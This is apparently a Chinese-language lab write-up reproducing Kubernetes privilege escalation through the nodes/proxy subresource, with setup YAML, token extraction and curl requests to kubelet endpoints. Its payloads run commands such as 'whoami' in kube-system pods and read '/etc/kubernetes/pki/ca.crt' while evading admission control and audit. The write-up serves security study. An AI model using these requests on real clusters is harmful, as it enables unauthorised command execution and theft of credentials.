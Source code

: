 # Kubernetes 利用 nodes proxy 子资源进行权限提升

## 漏洞描述

具有 `nodes/proxy` 权限的 K8s 用户可以绕过 API server 的认证，直接和 Kubelet 进行通信，从而绕过 K8s 的准入控制和日志审计，达到权限提升的效果。

参考链接：

- https://blog.aquasec.com/privilege-escalation-kubernetes-rbac
- https://github.com/Metarget/metarget/tree/master/writeups_cnv/config-k8s-node-proxy

## 环境搭建

基础环境准备（Docker + Minikube + Kubernetes），可参考 [Kubernetes + Ubuntu 18.04 漏洞环境搭建](https://github.com/Threekiii/Awesome-POC/blob/master/%E4%BA%91%E5%AE%89%E5%85%A8%E6%BC%8F%E6%B4%9E/Kubernetes%20%2B%20Ubuntu%2018.04%20%E6%BC%8F%E6%B4%9E%E7%8E%AF%E5%A2%83%E6%90%AD%E5%BB%BA.md) 完成。

本例中各组件版本如下：

```
Docker version: 18.09.3
minikube version: v1.35.0
Kubectl Client Version: v1.32.3
Kubectl Server Version: v1.32.0
```

通过 yaml 文件创建漏洞环境：

```
kubectl apply -f k8s_metarget_namespace.yaml
kubectl apply -f k8s_node_proxy.yaml
```

执行完成后，K8s 集群内 `metarget` 命名空间下将会创建一个名为 `k8s_node_proxy` 的 pod：

```
kubectl get pods -n metarget
-----
NAME             READY   STATUS    RESTARTS   AGE
k8s-node-proxy   1/1     Running   0          78s
```

![](images/Kubernetes%20利用%20nodes%20proxy%20子资源进行权限提升/image-20250422161359275.png)

## 漏洞复现

>  Kubernetes v1.24 及以上版本，默认不再自动创建长期存储的 Token Secret，即不再创建 `<serviceaccount>-token-xxxxx`。

为了复现当前场景，我们可以手动为 `ServiceAccount` 创建一个 secret（注意，在实际环境中，该方式存在风险）：

```
kubectl apply -f k8s_node_proxy_token.yaml
```

部署完成后，查看 secret：

```
kubectl get secrets -n metarget | grep node-proxy
k8s-node-proxy-token-secret   kubernetes.io/service-account-token   3      18m
```

此时，secret 没有自动绑定到 `ServiceAccount` ，需要手动绑定：

```
kubectl patch serviceaccount k8s-node-proxy -n metarget -p '{"secrets":[{"name":"k8s-node-proxy-token-secret"}]}'
```

查看是否绑定成功，如果绑定成功，`SECRETS` 的值将由 `0` 变为 `1`：

```
kubectl get serviceaccount k8s-node-proxy -n metarget
NAME             SECRETS   AGE
k8s-node-proxy   1         18m
```

![](images/Kubernetes%20利用%20nodes%20proxy%20子资源进行权限提升/image-20250422173756548.png)

至此，secrets 问题已经解决完毕，我们开始复现漏洞。获取 Token 值并导入：

```
kubectl get secrets k8s-node-proxy-token-secret -n metarget -o jsonpath={.data.token} | base64 -d

# 导入Token
export TOKEN=<YOUR_TOKEN>
```

![](images/Kubernetes%20利用%20nodes%20proxy%20子资源进行权限提升/image-20250422173949715.png)

可以看到，虽然我们无法直接通过 `/api/v1/namespaces/<namespace>/pods/` 列出 pods，但是可以通过具有 `nodes/proxy` 权限的 Token 间接访问 kubelet API，例如 `/api/v1/nodes/<node>/proxy/pods`。

```
# 发起请求，返回403
curl -k -H "Authorization: Bearer $TOKEN" https://192.168.49.2:8443/api/v1/namespaces/metarget/pods/
```

![](images/Kubernetes%20利用%20nodes%20proxy%20子资源进行权限提升/image-20250422174530583.png)

```
# 发起请求，返回200
curl -k -H "Authorization: Bearer $TOKEN" https://192.168.49.2:8443/api/v1/nodes/minikube/proxy/pods
```

![](images/Kubernetes%20利用%20nodes%20proxy%20子资源进行权限提升/image-20250422174957211.png)

```shell
# payload in https://blog.aquasec.com/privilege-escalation-kubernetes-rbac
# FAILED with Kubernetes v1.32.0
curl -k -H "Authorization: Bearer $TOKEN" https://192.168.49.2:8443/pods
# curl -k -H "Authorization: Bearer $TOKEN" https://192.168.49.2:8443/run/kube-system/<pod>/<container> -d "cmd=whoami"
curl -k -H "Authorization: Bearer $TOKEN" https://192.168.49.2:8443/run/kube-system/cilium-2vb9h/cilium-agent -d "cmd=whoami"
```

```shell
# payload in https://github.com/Metarget/metarget/tree/master/writeups_cnv/config-k8s-node-proxy
# WORKED with Kubernetes v1.16.5
curl -k https://kubelet-ip:kubelet-port/runningpods/ -H "Authorization: Bearer $token"	#查询集群内运行的pod
curl -k https://kubelet-ip:kubelet-port/run/kube-system/<apiserver-pod>/<container-name> -H "Authorization: Bearer $token" -d "cmd=cat+/etc/kubernetes/pki/ca.crt"	# 查询kube-apiserver pod中的证书
```

## 环境复原

```
kubectl delete secret k8s-node-proxy-token-secret -n metarget
kubectl delete -f k8s_metarget_namespace.yaml
kubectl delete -f k8s_node_proxy.yaml
```

## YAML

[k8s_metarget_namespace.yaml](https://github.com/Metarget/metarget/blob/master/yamls/k8s_metarget_namespace.yaml)

```
apiVersion: v1
kind: Namespace
metadata:
  name: metarget
```

[k8s_node_proxy.yaml](https://github.com/Metarget/metarget/blob/master/vulns_cn/configs/pods/k8s_node_proxy.yaml)

```
apiVersion: v1
kind: ServiceAccount
metadata:
  name: k8s-node-proxy
  namespace: metarget
---
apiVersion: rbac.authorization.k8s.io/v1
kind: ClusterRole
metadata:
  name: k8s-node-proxy
rules:
- apiGroups:
  - ""
  resources:
  - nodes/proxy
  verbs:
  - create
  - get
---
apiVersion: rbac.authorization.k8s.io/v1
kind: ClusterRoleBinding
metadata:
  name: k8s-node-proxy
roleRef:
  apiGroup: rbac.authorization.k8s.io
  kind: ClusterRole
  name: k8s-node-proxy
subjects:
- kind: ServiceAccount
  name: k8s-node-proxy
  namespace: metarget
---
apiVersion: v1
kind: Pod
metadata:
  name: k8s-node-proxy
  namespace: metarget
spec:
  serviceAccountName: k8s-node-proxy
  containers:
  - name: ubuntu
    image: ubuntu:latest
    imagePullPolicy: IfNotPresent
    # Just spin & wait forever
    command: [ "/bin/bash", "-c", "--" ]
    args: [ "while true; do sleep 30; done;" ]
```

k8s_node_proxy_token.yaml

```
apiVersion: v1
kind: Secret
metadata:
  name: k8s-node-proxy-token-secret
  namespace: metarget
  annotations:
    kubernetes.io/service-account.name: k8s-node-proxy
type: kubernetes.io/service-account-token
```

